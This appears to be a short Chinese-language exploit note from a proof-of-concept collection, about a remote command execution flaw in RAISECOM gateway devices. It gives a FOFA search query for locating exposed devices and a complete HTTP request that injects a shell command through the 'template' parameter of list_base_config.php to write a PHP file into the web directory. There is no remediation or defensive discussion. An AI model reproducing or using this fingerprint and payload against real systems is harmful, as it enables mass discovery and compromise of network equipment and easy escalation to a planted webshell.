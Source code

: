 # RAISECOM网关设备list_base_config.php存在远程命令执行漏洞

## fofa

```yaml
body="/images/raisecom/back.gif"
```

## poc

```java
GET /vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Finfo.php%60 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

```

文件路径`http://ip/tmp/info.php`